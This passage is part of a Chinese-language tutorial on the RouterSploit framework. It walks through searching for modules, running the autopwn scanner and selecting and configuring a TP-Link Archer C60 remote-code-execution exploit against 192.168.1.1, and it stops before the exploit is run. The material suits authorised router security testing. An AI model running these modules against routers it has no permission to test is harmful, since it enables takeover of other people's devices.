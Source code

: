 
### 四、基本使用流程与示例

启动后，你会看到一个 `rsf >` 的提示符，这与 Metasploit 的 `msf6 >` 非常相似。

**示例：利用一个针对 TP-Link 路由器的漏洞**

假设我们要测试一个目标 IP 为 `192.168.1.1` 的 TP-Link 路由器。

1.  **启动并搜索模块**
    ```bash
    # 启动
    python3 rsf.py

    rsf > search tplink
    # 这会列出所有与 TP-Link 相关的模块
    ```

2.  **使用扫描模块（可选但推荐）**
    首先，我们可以使用自动扫描来发现目标是否存在已知漏洞。
    ```bash
    rsf > use scanners/autopwn
    rsf (Autopwn) > set target 192.168.1.1
    rsf (Autopwn) > run
    ```
    如果扫描器报告了相关漏洞，我们可以直接使用它建议的漏洞利用模块。

3.  **选择并使用漏洞利用模块**
    假设我们通过搜索找到了一个针对 TP-Link Archer C60 的 RCE 漏洞。
    ```bash
    rsf > use exploits/routers/tplink/archer_c60_rce
    ```

4.  **设置选项**
    使用 `show options` 查看需要设置的参数。
    ```bash
    rsf (TP-Link Archer C60 RCE) > show options

    Target options:
       Name       Current settings     Description
       ----       ----------------     -----------
       target     192.168.1.1          Target IP address
       port       80                   Target port

    Module options:
       Name          Current settings     Description
       ----          ----------------     -----------
       password      Admin                Password to login with (default: Admin)
    ```
    设置目标地址：
    ```bash
    rsf (TP-Link Archer C60 RCE) > set target 192.168.1.1
    ```
    *注意：根据具体模块，可能还需要设置端口、密码等其他参数。*

